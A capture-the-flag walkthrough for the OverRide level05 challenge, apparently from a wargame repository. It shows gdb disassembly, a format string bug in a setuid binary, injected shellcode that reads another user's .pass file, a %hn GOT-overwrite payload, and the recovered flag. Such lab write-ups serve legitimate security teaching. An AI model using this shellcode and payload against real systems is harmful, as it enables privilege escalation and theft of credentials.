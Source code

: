 # Level05

## Walkthrough

We list the files in the current home directory.

```bash
level05@OverRide:~$ ls -lA
total 17
-rw-r--r--  1 level05 level05  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level05 level05 3533 Sep 10  2016 .bashrc
-rw-r--r--+ 1 level05 level05   41 Oct 19  2016 .pass
-rw-r--r--  1 level05 level05  675 Sep 10  2016 .profile
-rwsr-s---+ 1 level06 users   5176 Sep 10  2016 level05
level05@OverRide:~$ file level05 
level05: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x1a9c02d3aeffff53ee0aa8c7730cbcb1ab34270e, not stripped
```

The file `level05` is owned by **level06** and has the setuid bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  __gmon_start__
0x08048360  __gmon_start__@plt
0x08048370  exit
0x08048370  exit@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```

There is 1 user-defined function: `main()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     push   edi
   0x08048448 <+4>:     push   ebx
   0x08048449 <+5>:     and    esp,0xfffffff0
   0x0804844c <+8>:     sub    esp,0x90
   0x08048452 <+14>:    mov    DWORD PTR [esp+0x8c],0x0
   0x0804845d <+25>:    mov    eax,ds:0x80497f0
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x8],eax
   0x08048466 <+34>:    mov    DWORD PTR [esp+0x4],0x64
   0x0804846e <+42>:    lea    eax,[esp+0x28]
   0x08048472 <+46>:    mov    DWORD PTR [esp],eax
   0x08048475 <+49>:    call   0x8048350 <fgets@plt>
   0x0804847a <+54>:    mov    DWORD PTR [esp+0x8c],0x0
   0x08048485 <+65>:    jmp    0x80484d3 <main+143>
   0x08048487 <+67>:    lea    eax,[esp+0x28]
   0x0804848b <+71>:    add    eax,DWORD PTR [esp+0x8c]
   0x08048492 <+78>:    movzx  eax,BYTE PTR [eax]
   0x08048495 <+81>:    cmp    al,0x40
   0x08048497 <+83>:    jle    0x80484cb <main+135>
   0x08048499 <+85>:    lea    eax,[esp+0x28]
   0x0804849d <+89>:    add    eax,DWORD PTR [esp+0x8c]
   0x080484a4 <+96>:    movzx  eax,BYTE PTR [eax]
   0x080484a7 <+99>:    cmp    al,0x5a
   0x080484a9 <+101>:   jg     0x80484cb <main+135>
   0x080484ab <+103>:   lea    eax,[esp+0x28]
   0x080484af <+107>:   add    eax,DWORD PTR [esp+0x8c]
   0x080484b6 <+114>:   movzx  eax,BYTE PTR [eax]
   0x080484b9 <+117>:   mov    edx,eax
   0x080484bb <+119>:   xor    edx,0x20
   0x080484be <+122>:   lea    eax,[esp+0x28]
   0x080484c2 <+126>:   add    eax,DWORD PTR [esp+0x8c]
   0x080484c9 <+133>:   mov    BYTE PTR [eax],dl
   0x080484cb <+135>:   add    DWORD PTR [esp+0x8c],0x1
   0x080484d3 <+143>:   mov    ebx,DWORD PTR [esp+0x8c]
   0x080484da <+150>:   lea    eax,[esp+0x28]
   0x080484de <+154>:   mov    DWORD PTR [esp+0x1c],0xffffffff
   0x080484e6 <+162>:   mov    edx,eax
   0x080484e8 <+164>:   mov    eax,0x0
   0x080484ed <+169>:   mov    ecx,DWORD PTR [esp+0x1c]
   0x080484f1 <+173>:   mov    edi,edx
   0x080484f3 <+175>:   repnz scas al,BYTE PTR es:[edi]
   0x080484f5 <+177>:   mov    eax,ecx
   0x080484f7 <+179>:   not    eax
   0x080484f9 <+181>:   sub    eax,0x1
   0x080484fc <+184>:   cmp    ebx,eax
   0x080484fe <+186>:   jb     0x8048487 <main+67>
   0x08048500 <+188>:   lea    eax,[esp+0x28]
   0x08048504 <+192>:   mov    DWORD PTR [esp],eax
   0x08048507 <+195>:   call   0x8048340 <printf@plt>
   0x0804850c <+200>:   mov    DWORD PTR [esp],0x0
   0x08048513 <+207>:   call   0x8048370 <exit@plt>
End of assembler dump.
```

The `main()` function:
- calls `fgets()` to read up to 100 bytes from stdin, and stores user input in `[esp + 0x28]`
- calls `printf()` with previous user input stored in `[esp + 0x28]`
- calls `exit()` to quit the program

From our previous analysis and our experience from the previous levels and projects, we notice that we can exploit a **format string vulnerability** with `fgets()` and `printf()` in order to replace the address of `exit()` in the GOT with our own shellcode.

We also download the executable and upload it on **Dogbolt** in order to better understand the remaining assembly instructions.

[Link to the decompiled executable](https://dogbolt.org/?id=061a1527-1288-4c44-8fe6-bc482323508f)

The only interesting piece of code is the following one: it teaches us that any uppercase character written on stdin will be transformed to lowercase.

```c
for ( i = 0; i < strlen(s); ++i )
  {
    if ( s[i] > 64 && s[i] <= 90 )
      s[i] ^= 0x20u;
  }
```

First we export our shellcode which is gonna read the `.pass` in the home directory of the `level06` user. We input some NOP characters before it to ensure our shellcode will be executed.

```bash
level05@OverRide:~$ export SHELLCODE=$(python -c 'print "\x90" * 1000 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff" + "/home/users/level06/.pass"')
```

Then we have to find the address of our shellcode using a simple C program.

```c
#include <stdio.h>
#include <stdlib.h>

int main(void) {
  printf("%p\n", getenv("SHELLCODE"));
  return 0;
}
```

```bash
level05@OverRide:~$ cd /tmp/
level05@OverRide:/tmp$ mkdir getenv
level05@OverRide:/tmp$ cd getenv/
level05@OverRide:/tmp/getenv$ vim main.c
level05@OverRide:/tmp/getenv$ gcc -m32 main.c 
level05@OverRide:/tmp/getenv$ ./a.out 
0xffffd443
```

Our shellcode is located at `0xffffd443`, but because we are aiming for a NOP character, we will increment it by 64 bytes for example: `0xffffd483`.

Finally, we find the address of `exit()` in the GOT.

```
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:     push   0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

The address we are looking for is `0x80497e0`.

Now that we have all the information in hand in order to complete this level, we still need to resolve a last problem: we may not be able to write `0xffffd483` (`4294956163`) characters on stdin with `printf()`...  
Thankfully a solution exists to avoid printing too many bytes in a `printf()` call: treat the 4 bytes address 2 bytes at a time with the `%hn` format specifier.  
The address `0xffffd483` can be represented as `0xffff` and `0xd483`.

Two details to bear in mind before writing our solution:
- memory words are stored in little-endian on our machine, therefore we have to store `0xffff` in `0x80497e2` and `0xd483` in `0x80497e0`
- the second `%hn` specifier will count the bytes already written from the previous one so we have to write the smallest value first

The first value to write is: 54403 (`0xd483`) - 8 (the bytes from the addresses written in first position) = 54395.
The second value to write is: 65535 (`0xffff`) - 54403 = 11132.

```bash
level05@OverRide:~$ python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%54395x" + "%10$hn" + "%11132x" + "%11$hn")' | ./level05
# [...]
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

## Resources

- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings)
- [Format-String Vulnerability](https://fengweiz.github.io/20fa-cs315/labs/lab3-slides-format-string.pdf)
- [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
